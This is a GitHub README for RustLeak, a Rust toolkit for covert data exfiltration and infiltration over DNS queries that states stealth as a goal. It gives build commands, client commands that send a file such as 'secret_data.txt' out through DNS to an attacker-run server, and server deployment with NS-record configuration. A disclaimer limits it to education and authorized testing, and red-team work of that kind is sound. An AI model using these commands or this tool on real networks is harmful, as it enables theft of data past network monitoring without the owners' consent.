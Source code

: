 # **RustLeak**

**RustLeak** is a DNS-based data exfiltration and infiltration toolkit, built with Rust. It can be used in a restricted environment. It aims in the future to be more stealth. It consists of two main components:

- **`rustleak-server`**: The custom DNS server that processes data through DNS queries.
- **`rustleak-client`**: The client tool to send or receive data using the server.

---

## **Important Notice**
- You need to set up and host the DNS Server.
- Update your DNS provider settings to redirect DNS traffic to your server.
  
## **Speeds**

| Version | Upload         | Download       |
|---------|----------------|----------------|
| v0.1.0  | ~250 Bytes/s   | ~230 Bytes/s   |
| v0.1.1  | ~23 000 Bytes/s (4 threads ) | ~23 000 Bytes/s (4 threads ) |

---

## **Features**
- **Custom DNS Server**: Handles DNS zones and processes encoded data.
- **Exfiltration and Infiltration**: Transmit or receive data using DNS queries and responses.
- **Command-Line Interface (CLI)**: Simple commands for sending and receiving data.

---

## **How It Works**
- **Exfiltration**: The client (`rustleak-client`) sends data embedded in DNS queries to the server (`rustleak-server`), which decodes and stores it.
- **Infiltration**: The server responds with data embedded in DNS responses, and the client decodes the received data.

---

## **Possible Upgrades**
- [x] **Record Type Rotation**: Upload request types vary between TXT, A, AAAA, and CNAME.
- [x] **Multi-threading**: Allow the use of multi-threading to increase speed (at the cost of stealth).
- [ ] **Symmetric Encryption**: Encrypt data by providing a code for encryption when starting the program.
- [ ] **Asymmetric Encryption**: Encrypt data automatically without requiring a code for encryption.
- [ ] **Upload Speed Upgrade**: Transfer more labels in upload queries.
- [ ] **Download Speed Upgrade**: Transfer more data per download query.

---

## **Installation**

### Prerequisites
- Rust (latest stable version)
- Cargo (Rust package manager)

### Clone the Repository
```bash
git clone https://github.com/Natounet/RustLeak.git
cd RustLeak
```

### Build the Tools
```bash
cargo build --release
```

---

## **Usage**

### **Client: \`rustleak-client\`**
The client provides commands to send or receive data via DNS queries. Below are the supported commands:
- `[-t nb]`: Optionally specify the number of threads to use.

#### **Send Data**
Use the \`Send\` command to exfiltrate data:
```bash
rustleak-client [-t nb] send --code <unique_code> --filename <file_to_send> --domain <dns_server_domain>
```

**Options**:
- `--code`: A unique identifier for the data being sent.
- `--filename`: Path to the file containing the data to be sent.
- `--domain`: The domain name managed by the DNS server.

**Example**:
```bash
rustleak-client send --code test123 --filename secret_data.txt --domain example.com
```

![upload](https://github.com/user-attachments/assets/cb1cfe8d-8ff6-4c0f-a24a-2f25a153ece6)



#### **Receive Data**
Use the `Receive` command to retrieve data:
```bash
rustleak-client [-t nb] receive --code <unique_code> --filename <output_file> --domain <dns_server_domain>
```

**Options**:
- `--code`: The unique identifier for the data to retrieve.
- `--filename`: Path to the file where the received data will be saved.
- `--domain`: The domain name managed by the DNS server.

**Example**:
```bash
rustleak-client receive --code test123 --filename received_data.txt --domain example.com
```

![download](https://github.com/user-attachments/assets/bd13898f-bcdc-4ddf-8241-50bf65275ed4)


---

### **Server: \`rustleak-server\`**
The server handles DNS queries for a specific domain.

#### **Start the Server**
Run the server and specify the DNS zone to manage:
```bash
rustleak-server --domain <dns_zone> 
```

**Options**:
- `--domain`: The DNS zone to manage (e.g., \`example.com\`).
- `--port`: The port for the DNS server (default: 53).
- `--output`: File to save data received from clients.

**Example**:
```bash
rustleak-server --domain example.com 
```

---

## **Deployment**

To deploy `rustleak-server` online:
1. Obtain a domain name (e.g., \`example.com\`) and configure its DNS records.
2. Point your domain's **NS record** to the public IP of the machine running \`rustleak-server\`.
3. Start the server with the appropriate domain.

**DNS Configuration Example**:
```plaintext
example.com.    IN NS   <server-public-ip>
```
---

## **License**
This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.

---

## **Contributing**
Contributions are welcome! Feel free to submit issues or pull requests for bug fixes or new features.

---

## **Disclaimer**
This tool is intended for **educational purposes** and authorized security testing only. The developer is not responsible for any misuse of this tool.

---

## **Contact**
For any questions or feedback, please open an issue on the [GitHub repository](https://github.com/Natounet/RustLeak).

---
